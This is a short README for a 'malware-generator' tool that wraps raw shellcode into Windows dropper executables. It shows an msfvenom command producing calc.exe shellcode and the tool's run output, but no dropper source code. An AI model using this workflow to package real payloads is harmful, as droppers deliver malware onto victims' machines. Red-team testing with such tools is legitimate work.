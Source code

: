 # malware-generator

Simple project to generate 32bit or 64bit droppers

# Usage

Create raw 64bit or 32bit shellcode with any tool you like here i will use msfvenom calc 64bit shellcode
```
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
```

Then use my tool to generate a dropper for it
```
# ./generator.py calc.bin 
[*] Generating x64 Dropper for calc.bin
[+] Executable saved to output/calc.exe
```


## Todo
* add option to generate direct from msfvenom.
* add option to pass .NET assemblies and use donut.

